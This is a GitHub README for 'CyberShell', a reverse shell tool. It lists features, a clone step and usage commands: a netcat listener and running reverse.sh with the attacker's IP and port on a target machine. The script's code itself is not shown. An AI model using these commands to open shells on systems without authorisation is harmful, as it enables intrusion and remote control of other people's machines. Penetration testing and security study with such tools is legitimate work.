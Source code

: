 # 🚀 CyberShell: A Powerful Reverse Shell Tool

**CyberShell** is a cutting-edge reverse shell tool designed for cybersecurity professionals, penetration testers, and developers. It allows you to remotely execute commands on a target machine, making it an essential tool for both offensive and defensive security operations.

---

## 🌟 Features

- **Remote Command Execution**: Execute commands on a remote machine seamlessly.
- **Cross-Platform Support**: Works on Windows, Linux, and macOS.
- **Lightweight and Fast**: Minimal resource usage for efficient operations.
- **Customizable**: Easily modify the code to fit your specific needs.
- **Educational**: Perfect for learning about networking and cybersecurity.

---

## 🛠️ Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/Midohajhouj/CyberShell.git
   cd CyberShell
   ```

2. put the script on target machine

    
## 🚦 Usage

1. Start the listener on your machine:
   ```bash
   nc -lvnp 9001
   ```

2. Execute the reverse shell script on the target machine:
   ```bash
   ./reverse.sh <your-ip> <port>
   ```

3. Enjoy remote command execution!

---

## 📜 License

This project is licensed under the MIT License. See the LICENSE file for details.

---

## 🤝 Contributing

Contributions are welcome! Please read the CONTRIBUTING.md file for guidelines.

---

## 🙏 Acknowledgments

- Inspired by various cybersecurity tools and techniques.
- Thanks to the open-source community for their contributions.

<p align="center"> Made with ❤️ by <a href="https://github.com/Midohajhouj">MIDO777</a> </p>
